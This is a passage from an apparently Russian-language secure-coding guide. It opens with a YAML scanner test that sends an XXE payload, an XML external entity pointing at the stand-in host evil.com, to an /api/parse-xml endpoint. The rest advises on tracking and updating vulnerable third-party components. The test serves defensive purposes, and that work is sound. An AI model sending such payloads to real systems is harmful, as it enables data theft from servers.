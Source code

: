 ```
  - name: Restriction of XXE Reference Test
    path:
      - /
      - /admin
      - /api
    matchers:
      - type: status
        status:
          - 200
    attacks:
      - type: dynamic-attack
        requests:
          - method: POST
            path: /api/parse-xml
            headers:
              - name: Content-Type
                value: application/xml
            body: |
              <?xml version="1.0" encoding="UTF-8"?>
              <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://evil.com/xxe">]>
              <root>&xxe;</root>
            matchers:
              - type: word
                words:
                  - "XXE detected"
```


### Уязвимые и устаревшие компоненты

Уязвимые и устаревшие компоненты - это сторонние библиотеки, фреймворки или программные компоненты, которые имеют известные уязвимости в системе безопасности или больше не поддерживаются исправлениями. Использование таких компонентов может создать риски для безопасности вашего приложения или системы, поскольку злоумышленники могут использовать эти уязвимости для получения несанкционированного доступа или компрометации системы.

Чтобы предотвратить использование уязвимых и устаревших компонентов, необходимо соблюдать следующие профилактические меры:

1. Вести инвентаризацию компонентов: Создайте и ведите реестр всех сторонних компонентов, используемых в вашем приложении или системе. Следите за номерами версий и источниками этих компонентов.

1. Будьте в курсе обновлений безопасности: Следите за последними рекомендациями по безопасности и отчетами об уязвимостях используемых компонентов. Подпишитесь на списки рассылки по безопасности или следите за официальными источниками, чтобы получать уведомления об исправлениях и обновлениях безопасности.

1. Регулярно обновляйте компоненты: Регулярно обновляйте компоненты вашего приложения или системы до последних стабильных и безопасных версий. Проверяйте наличие обновлений безопасности и своевременно применяйте исправления. Убедитесь, что процесс обновления хорошо документирован и регулярно тестируется.

1. Используйте базы данных уязвимостей: Используйте базы данных уязвимостей и ресурсы по безопасности, которые предоставляют информацию об известных уязвимостях в компонентах. Регулярно проверяйте эти ресурсы, чтобы выявить уязвимости в используемых компонентах и принять соответствующие меры.
